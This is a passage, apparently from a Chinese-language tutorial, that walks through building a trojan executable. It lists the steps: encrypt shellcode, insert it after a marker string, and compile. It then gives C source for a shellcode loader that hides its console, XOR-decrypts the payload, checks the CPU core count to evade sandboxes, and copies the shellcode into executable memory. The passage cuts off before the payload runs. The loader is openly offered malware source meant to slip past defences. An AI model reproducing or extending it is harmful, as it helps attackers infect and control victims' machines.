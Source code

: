 0x04 代码
=======

使用该代码的流程：

1. 使用加密函数加密shellcode
2. 将shellcode填充到`"\xe8\x2b\x10\x06\x00"`字符常量的后面
3. 编译生成木马exe

```php
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//隐藏控制台

typedef void (*CODE)();
/* length: 844 bytes */
//0xe8, 0x2b, 0x10, 0x06, 0x00,...
unsigned char shellcode[] = "\xe8\x2b\x10\x06\x00";

PVOID p = NULL;

void decrypt()
{
    //解密Shellcode
    for(int i = 5;i<sizeof(shellcode);i++)
    {
        ((char*)p)[i] = ((char*)p)[i]^184^6;
    }

}

// 检查CPU核心数
// SYSTEM_INFO.dwNumberOfProcessors
INT checkCPUCores(INT cores)
{
    INT i = 0;
    _asm { // x64编译模式下不支持__asm的汇编嵌入
        mov eax, dword ptr fs : [0x18]; // TEB
        mov eax, dword ptr ds : [eax + 0x30]; // PEB
        mov eax, dword ptr ds : [eax + 0x64];
        mov i, eax;
    }
    return i;
}

DWORD WINAPI ThreadProc(        
             LPVOID lpParameter   // thread data
             )
{

    //申请内存
    if ((p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL)
    {
        //MessageBoxW(NULL, L"VirtualAlloc Failed!!!", L"Prompt", MB_OK);
        return 1;
    }

    //复制shellcode
    if (!(memcpy(p, shellcode, sizeof(shellcode))))
    {
        //MessageBoxW(NULL, L"WriteMemory Failed!!!", L"Prompt", MB_OK);
        return 1;
    }

```